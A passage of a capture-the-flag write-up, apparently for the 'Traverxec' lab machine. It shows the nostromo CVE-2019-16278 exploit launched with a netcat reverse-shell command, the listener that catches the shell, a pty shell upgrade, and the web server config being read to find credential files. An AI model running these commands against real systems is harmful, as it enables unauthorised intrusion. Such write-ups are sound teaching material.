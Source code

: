 This server has `nc` that has a dangerous option `-e`.<br>
We can use it for the getting reverse shell.
```shell:exploit
root@kali:~# python 47837.py 10.10.10.165 80 'nc 10.10.14.32 443 -e /bin/bash'


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    
```
```shell:reverse_shell
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.165] 33616
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Look at `/var/nostromo/conf/nhttpd.conf`.<br>
We can find the following 2:
1. We have `.htpasswd` in `/var/nostromo/conf`. 
2. We have an interesting parameter `homedirs_public:publc_www`

```shell:nhttpd.conf
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]
```